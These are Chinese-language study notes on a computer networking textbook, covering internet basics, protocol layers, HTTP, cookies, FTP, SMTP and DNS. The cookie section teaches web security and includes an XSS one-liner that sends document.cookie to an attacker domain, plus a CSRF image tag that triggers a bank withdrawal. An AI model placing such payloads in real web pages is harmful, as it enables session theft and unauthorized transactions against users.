 # 计算机网络

Computer Networking：A Top-Down Approach，Sixth Edition，ISBN: 9787111453789

## 第一章 计算机网络和因特网

### 1.1 因特网

- 因特网由主机（Host）组成
- 主机通过通信链路（communication link）和分组交换机（packet switch）连接到一起
- 通信链路：同轴电缆、铜线、光纤、无线电频谱
- 分组交换机：路由器、链路层交换机
- ISP（Internet Service Provider）: 因特网服务提供商
- 通信方式由协议规定，最著名的协议就是TCP/IP协议
- [IETF](https://www.ietf.org/) 通过 [RFC](https://tools.ietf.org/rfc/index) 文档定义协议（Protocol）

### 1.2 接入网络

- 家庭接入：DSL、电缆、光纤
- 企业接入：以太网、WiFi
- 广域无线接入：3G、4G、5G、LTE

### 1.3 分组交换

* 时延
    * 处理时延：检查首部、确定转发的路径、位校验等
    * 排队时延：等待开始向链路传输，当流量大时需要排队
    * 传输时延：将整个分组传输到链路，第一位到最后一位
    * 传播时延：分组到达下一个路由器所需要的时间
* 丢包：流量过大，超过队列限制，包将会被丢弃
* 吞吐量：能够承载的流量（瞬时、平均、最大）

### 1.4 协议分层

* 应用层 - HTTP/SMTP/FTP - 报文（message）
* 传输层 - TCP/UDP - 报文段（segment）
* 网络层 - IP/路由选择 - 数据报（datagram）
* 链路层 - DOCSIS - 帧（frame）
* 物理层 - 物理媒体的协议 - 比特/位（Bit）

OSI模型在**应用层**与**传输层**之间还有

* 表示层 - ASCII/JPEG/GIF
* 会话层 - 比如SQL会话

### 1.5 网络安全

* 恶意软件
* 僵尸网络
* 病毒
* Dos攻击（Denial Of Service Attack）
    * 弱点攻击：系统或软件的漏洞
    * 带宽泛洪：发送大量流量，阻碍正常流量处理
    * 连接泛洪：开启大量TCP半开/全开的连接
* 分组嗅探：无线网、局域网等
* 伪造请求：IP哄骗等

##　第二章 应用层

### 2.1 进程通信

- 通过套接字（Socket）通信
- 通过*IP地址+端口号*区分

### 2.2 HTTP协议

* 默认端口 **80**
* 请求报文格式
    * 请求行  `请求方法 sp 请求URL sp 版本 cr lf`
    * 头部行  `头部字段名 : sp 头部字段值 cr lf`
    * 空行 `cr lf`
    * 请求体 
    * 示例：
    ```
    GET /somedir/page.html HTTP/1.1
    HOST: www.somescholl.edu
    Connection: close
    User-Agent: Mozila/5.0
    Accept-Language: fr
    ```
* 响应报文格式
    * 状态行 `版本 sp 状态码 sp 状态短语 cr lf`
    * 头部行 `头部字段名 : sp 头部字段值 cr lf`
    * 空行 `cr lf`
    * 响应体
    * 示例：
    ```
    HTTP/1.1 200 OK
    Connection: close
    Date: Tue, 09 Aug 2011 15:44:04 GMT
    Server: Apache/2.2.3 (CentOS)
    Last-Modified: Tue, 09 Aug 2011 15:11:03 GMT
    Content-Length: 6821
    Content-Type: text/html
    
    (data data data data ...)
    ```
* 持续连接 / 非持续连接：是否复用TCP连接
* Cookie：HTTP是无状态协议，Cookie用于识别用户
    * 响应头`Set-Cookie: <cookie名>=<cookie值>`用于设置Cookie
    * 请求头`Cookie: <cookie名1>=<cookie值1>; <cookie名2>=<cookie值2>`
    * 持久性
        * 可以指定特定的过期时间`Expires`或者有效期（单位秒）`Max-Age`
        * 指定`Expires`：`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`
        * 指定`Max-Age`：`Set-Cookie: id=a3fWa; Max-Age=3600;`
    * 安全性标记    
        * `Secure`标记Cookie只通过HTTPS发送请求
        * `HttpOnly`标记不能通过JavaScript访问Cookie，避免跨站脚本攻击（XSS）
        * 示例：`Set-Cookie: id=a3fWa; Secure; HttpOnly`
    * 作用域
        * `Domain`指定哪些主机域名可以接受Cookie
        * `Path`指定具体的路径（该路径下的子路径也会被匹配）
    * `SameSite`用于防止跨站请求伪造攻击（CSRF）
        * None 仍然发送
        * Strict 完全一致的URL下才会发送
        * Lax 图片加载或Frame调用时可以发送，跳转导航到页面时不发送
    * XSS攻击
        * 使用JavaScript访问Cookie进行跳转
        * 示例：`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`
        * `HttpOnly`标记一定程度上可以防止该问题
    * CSRF攻击
        * 其它网站上进行跳转，比如假装成图片，欺骗用户点击
        * 示例：`<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">`
        * 预防攻击
            * 对用户输入进行过滤
            * 敏感操作都需要确认
            * 敏感信息的Cookie只能拥有较短的生命周期

### 2.3 FTP协议

* 默认端口 **21**
* 使用两个连接
    * 控制连接（持续的）
    * 数据连接（非持续的）
* 请求命令
    * USER username
    * PASS password
    * LIST
    * ... 
* 响应
    * 331 Username OK, Password required 
    * 425 Can't open data connection
    * ...

### 2.4 邮件协议

* SMTP 简单邮件协议
    * HELO
    * MAIL FRON
    * RCPT TO
    * DATA
    * QUIT
* POP3
* IMAP

### 2.5 DNS协议

* 默认端口 **53**
* DNS的功能
    * 主机名到IP地址的转换
    * 主机别名：别名比主机名更加容易记忆（xxx.222.yyy.com - x2y.com）
    * 邮件服务器别名
    * 负载分配：多个IP对应一个主机名，返回顺序的IP地址集合
* 分布式的DNS服务器
    * 根DNS服务器
    * 顶级DNS服务器
    * 权威DNS服务器
    * 使用DNS缓存
    * 使用递归查询和迭代查询
* DNS的记录格式
    * 记录的格式 `(NAME, VALUE, TYPE, TTL)`
        * A类型 (relay1.bar.foo.com, 123.45.67.89, A) 
            * 指定域名对应的 IP 地址记录。
         * NS类型(foo.com, dns.foo.com, NS) 
             * 指定解析域名或子域名的 DNS 服务器。
         * CNAME类型(foo.com, relay1.bar.foo.com, CNAME)
             * 一个域名映射到另一个域名或 CNAME 记录 或 A记录
         * MX类型(foo.com, mail.bar.foo.com, MX)
             * 指定接收信息的邮件服务器
* DNS的报文格式
    * [RFC 1035 4. MESSAGES](https://tools.ietf.org/html/rfc1035.html)
## 第三章 传输层